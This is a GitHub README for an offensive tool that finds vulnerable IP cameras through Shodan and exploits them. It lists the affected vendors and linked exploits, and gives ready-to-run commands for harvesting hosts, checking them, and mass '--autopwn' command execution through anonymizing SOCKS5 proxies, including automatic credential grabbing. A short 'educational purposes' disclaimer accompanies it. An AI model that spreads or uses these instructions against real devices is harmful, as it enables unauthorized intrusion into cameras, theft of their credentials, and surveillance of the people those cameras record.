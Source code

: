 # CamHoundAD

<a href="https://github.com/pxcs/CamHoundAD/"><p align="center">
<img width="1100" height="400" src="/screenshots/cctv.jpg">
</p></a>

This is a tool meant to assist **Cyber Security** researchers on discovering outdated and vulnerable camera systems on the internet by utilizing [shodan.io](shodan.io). I was able to discover thousands of vulnerable cameras using it. It could be for Cammera Attacks research, CCTV's Attacks research, etc.

# Vendors Affected

>- [+] Hikvision

>- [+] Nikon

>- [+] Avtech

>- [+] GoPro

>- [+] TVT

>- [+] Cacti

Coming Soon . . .

# Features

- Fetching of hosts from shodan.io
   - [Attacks Key](shodan.io)
- Check for vulnerable cameras
- Automatically run commands on exploited Devices
- Automatically grab camera credentials
- Multi-threading for faster scanning
- Usage of Socks5 proxies for anonymity
- Storing results in Sqlite3 database
- Logging all actions in log files 

# Prerequisites

To use this tool you need to have the following:
- Shodan API Key
- Socks5 authenticated proxies

# Installation

```python
git clone https://github.com/pxcs/CamHoundAD
pip install -r requirements.txt
python3 scanner.py --help
```

# Usage

## Collect hosts in database

```python
# Collect Hikvision hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'product:"Hikvision IP Camera"' --pages 1

# Collect Avtech hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'linux upnp avtech' --pages 1

# Collect TVT hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'product:"Cross Web Server"' --pages 1

# Collect Cacti hosts
python3 scanner.py --shodan --api-token <shodan_token> --query 'Login to Cacti' --pages 1
```

## Check hosts for exploit

```python
python3 scanner.py --check --proxy-file proxies.txt --threads 20
```

## Automatically run command on exploited hosts

```python
python3 scanner.py --autopwn --proxy-file proxies.txt --payload "id"
```

# About CamHoundAD

This tool is purely educational and is inteded to make the internet more secure. **I will not be responsible for any direct or indirect damage caused due to the usage of this tool, it is for educational purposes only.** Any PR's or suggestions on improving this project are welcome

## Exploits Used

[[+] Exploit-db](https://www.exploit-db.com/exploits/40500)

[[+] Exploit-db](https://www.exploit-db.com/exploits/50441)

[[+] RCE](https://github.com/k1p0d/h264_dvr_rce)

[[+] CVE](https://github.com/sAsPeCt488/CVE-2022-46169)

